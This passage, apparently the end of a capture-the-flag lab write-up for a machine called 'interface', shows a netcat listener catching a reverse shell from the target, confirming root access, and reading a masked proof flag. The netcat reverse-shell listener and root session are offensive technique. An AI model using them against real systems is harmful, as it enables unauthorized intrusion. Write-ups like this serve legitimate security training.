### catch connect from target
```bash
$ nc -lvp 80                          
listening on [any] 80 ...
192.168.135.106: inverse host lookup failed: Unknown host
connect to [192.168.49.135] from (UNKNOWN) [192.168.135.106] 47970
bash: cannot set terminal process group (432): Inappropriate ioctl for device
bash: no job control in this shell
root@interface:/var/www/app/dist# whoami
whoami
root
```

> Root shell!
{: .prompt-info }

---

# get flag
```bash
root@interface:/var/www/app/dist# cd /root
cd /root
root@interface:~# ls
ls
proof.txt
qwe.gz
root@interface:~# cat proof.txt
cat proof.txt
9******************************6
```

Pwned! <@:-)
